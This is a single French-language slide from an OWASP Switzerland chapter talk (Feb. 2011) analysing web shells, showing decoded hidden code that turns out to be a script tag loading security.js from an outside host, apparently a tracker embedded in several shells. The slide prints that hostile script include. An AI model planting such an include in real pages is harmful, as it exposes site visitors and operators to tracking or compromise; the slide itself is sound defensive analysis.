

# Résultat
Ce code est donc finalement:
<SCRIPT SRC=http://jino.ji.funpic.org/lq/security.js></SCRIPT>
Une inclusion de script, l’équivalent d’un XSS
Cette adresse ne répond plus depuis un moment (404)
On retrouve cette URL pour plusieurs shells (benladen shell, …)
Un mouchard ?
60
OWASP Switzerland – Geneva Chapter Meeting @ HEIG-VD (Yverdon-Les-Bains) – Feb.2011